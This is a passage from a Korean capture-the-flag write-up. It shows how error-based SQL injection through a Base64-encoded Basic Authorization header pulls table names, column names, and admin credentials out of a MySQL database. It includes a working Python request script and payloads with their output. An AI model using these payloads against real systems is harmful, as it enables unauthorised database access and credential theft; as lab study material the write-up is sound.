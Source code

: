 보이는것처럼 Error Message가 출력되는 것을 확인할 수 있다. 이를 통해 Error Based SQL Injection이 가능한 것을 알 수 있다.

다음과 같은 페이로드를 작성하여 요청을 여러번 날려보았다.

- Error Based SQL Injection : [https://hyunmini.tistory.com/17](https://hyunmini.tistory.com/17)

```python
import requests
import base64

url = "http://114.203.209.112:8000/internal_1d607d2c193b.php"

for i in range(70):
    payload = "guest' union (select 1,count(*),concat((select table_name from information_schema.tables limit " + str(i) + ",1),floor(rand(0)*2)) as a from information_schema.tables group by a)#:guest"

    data = {"asd" : "asd"}
    Headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Authorization": "Basic " + base64.b64encode(payload.encode('utf-8')).decode('utf-8')
    }

    res = requests.post(url, data=data, headers=Headers)
    print(res.text[115:150])

# [ Result ]
# ...
# 'INNODB_SYS_FOREIGN_COLS1' for key 
# 'INNODB_CMPMEM1' for key '<group_ke
# 'INNODB_BUFFER_POOL_STATS1' for key
# 'INNODB_SYS_COLUMNS1' for key '<gro
# 'INNODB_SYS_FOREIGN1' for key '<gro
# 'INNODB_SYS_TABLESTATS1' for key '<
# 'auth_user1' for key '<group_key>'
```

위에서 알 수 있듯이 핵심처럼 보이는 auth_user라는 테이블을 볼 수 있다. (1은 `floor(rand(0)*2)` 때문에 붙는거다.)

다음과 같이 Payload를 여러번 번갈아서 요청 보냈다.

```python
# Get Columns
payload = "guest' union (select 1,count(*),concat((select column_name from information_schema.columns where table_name = 'auth_user' limit " +str(i)+ ",1),floor(rand(0)*2)) as a from information_schema.tables group by a)#:guest"
# 'id1' for key '<group_key>' </p>
# 'login1' for key '<group_key>' </p>
# 'password1' for key '<group_key>' <

# Get Password
payload = "guest' union (select 1,count(*),concat((select password from auth_user limit " +str(i)+ ",1),floor(rand(0)*2)) as a from information_schema.tables group by a)#:guest"
# 'WACon{Try_using_Gophhhher1' for ke

# Get Login
payload = "guest' union (select 1,count(*),concat((select login from auth_user limit " +str(i)+ ",1),floor(rand(0)*2)) as a from information_schema.tables group by a)#:guest"
# 'admin1' for key '<group_key>' </p>
```
